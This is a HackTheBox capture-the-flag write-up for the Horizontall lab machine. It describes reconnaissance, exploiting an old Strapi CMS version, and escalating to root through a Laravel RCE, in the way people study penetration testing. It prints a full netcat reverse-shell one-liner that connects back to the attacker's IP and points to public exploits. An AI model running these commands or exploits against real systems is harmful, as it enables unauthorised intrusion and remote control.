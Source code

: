 ```yaml
---
title: Horizontall WriteUp @HackTheBox
author: MBZ0x7
date: 2022-02-06 15:10:00 +0800
categories: [Penetration Testing]
tags: [linux,web,pentest,hackthebox]
pin: false
---
```

Hello, here's my writeup for Horizontall linux machine from HackTheBox, which I pwned few days ago before it gots retired. 

![](../../assets/img/posts/3/0.jpeg)
# <font color='red'>Information Gathering </font>
---
```
sudo nmap -sV 10.10.11.105
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Visiting 10.10.11.105 showed horizontall.htb, so I updated ```/etc/hosts```.

![](../../assets/img/posts/3/1.png)

When diging into website source code, I haven't found anything useful. So, immediately I decided to bruteforce subdirectories, which also reveals nothing unfortunately.

Then, I decided to bruteforce subdomains. I used gobuster with one of seclists wordlists, which revealed 1 subdomain. So, as previously I updated my hosts file.
![](../../assets/img/posts/3/2.png)

Here is how the subdomain looked up. Nothing of interest.
![](../../assets/img/posts/3/3.png)
So, I bruteforced subdirectories which showed 2 (/admin and /reviews).
![](../../assets/img/posts/3/4.png)
When visiting /admin subdir, I discovered that I'll be dealing with ```strapi CMS```.
![](../../assets/img/posts/3/5.png)
/reviews is useless.
![](../../assets/img/posts/3/6.png)
Trying default credentials wasn't successful, so I tried to find strapi version to look for CVEs which I found in one JS file. It was ```3.0.0-beta.17.4```.
![](../../assets/img/posts/3/7.png)
Looking into exploit-db, I found 1st and 3rd ones potentially applicable. 
![](../../assets/img/posts/3/8.png)

# <font color='red'>Exploitation</font>
---
I copied exploit-db 1st exploit into current directory using searchsploit command.
![](../../assets/img/posts/3/9.png)
 Then, executed it and used ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.81 4444 >/tmp/f``` to get reverse shell to netcat.
![](../../assets/img/posts/3/10.png)
Then, I found the user flag in developer account home directory.
![](../../assets/img/posts/3/11.png)

# <font color='red'>Privilege Escalation</font>
---
For PrivEsc, I run linPEAS after transfering its shell script file to the compromised machine. 

From its output, ports 8000 and 3306 caught my attention.
![](../../assets/img/posts/3/12.png)
I run ```curl http://127.0.0.1:8000``` and got a Laravel 8 website running locally.
![](../../assets/img/posts/3/13.png)
Visiting exploit-db, I found an RCE exploit that looks promissing. 
![](../../assets/img/posts/3/14.png)
For whatever reason it hasn't worked for me. So, I searched another one and found it 
[here](https://github.com/nth347/CVE-2021-3129_exploit). which got me arbitrary code execution on the root account ,and got the flag.
![](../../assets/img/posts/3/15.png)
